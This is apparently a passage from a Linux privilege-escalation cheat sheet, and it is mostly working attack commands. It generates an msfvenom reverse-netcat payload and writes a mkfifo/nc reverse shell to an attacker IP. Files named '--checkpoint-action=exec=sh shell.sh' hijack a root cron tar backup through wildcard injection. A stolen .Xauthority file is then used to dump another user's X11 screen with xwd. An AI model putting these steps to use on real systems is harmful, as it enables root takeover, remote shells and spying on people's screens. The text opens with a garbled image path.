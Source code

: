 On victim
```bash
ping -c 2 kali_ip
```

## TAR Wildcards

In case of CRON like  
`*/1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*`

Payload generation
```sh
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.10 lport=8888 R
```

```sh
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## XAuthority / X11 dump

If you have access to the .Xauthority from another user

- Set it for your current user

```bash
XAUTHORITY=/tmp/.Xauthority
export XAUTHORITY
xauth list
```

- Check who is connected

```bash
w

USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Fri06    2days  5:38   0.14s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

- Dump his screen

```bash
xwd -root -screen -silent -display :0 -out dump
```

```bash
-display display
    This argument allows you to specify the server to connect to; see x(7).
-out file
    This argument allows the user to explicitly specify the output file on the command line. The default is to output to standard out.
-root
    This option indicates that the root window should be selected for the window dump, without requiring the user to select a window with the pointer.
-screen
    This option indicates that the GetImage request used to obtain the image should be done on the root window, rather than directly on the specified window. In this way, you can obtain pieces of other windows that overlap the specified window, and more importantly, you can capture menus or other popups that are independent windows but appear over the specified window.
-silent
    Operate silently, i.e. don't ring any bells before and after dumping the window.
```
